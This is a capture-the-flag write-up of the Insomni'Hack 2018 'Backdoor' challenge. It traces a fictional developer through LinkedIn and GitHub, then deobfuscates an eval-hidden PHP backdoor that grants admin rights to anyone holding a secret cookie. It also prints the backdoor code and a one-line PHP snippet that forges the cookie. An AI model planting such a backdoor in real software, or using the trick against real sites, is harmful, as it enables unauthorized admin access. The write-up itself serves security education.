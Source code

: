 ```yaml
---
title: Insomni'Hack 2018 - Backdoor
layout: writeup
authors: Guillaume_Lopes
ctf_url: https://insomnihack.ch/
---
```

Solves: 25 / Points: 124


## Challenge description
Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we're running into a lot of competition. One company in particular is stealing all our clients and we'd like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?



## Challenge resolution


When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:

* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name:
![James Linkedin Profile](/assets/james.png)

When looking on a GitHub, we can find only one user with the company name:

* https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:
![backdoor code](/assets/backdoor-code.png)

In order to retrieve the value of $code variable, we just modified `eval` function with `echo` and we obtained the following code:
```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name `wwwadmin` with the value "s3cr3t_backd00r_to_all_pages!" compressed with Gzip and encoded in base64.
It's just one line of PHP:
```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![Flag](/assets/backdoor-flag.png)
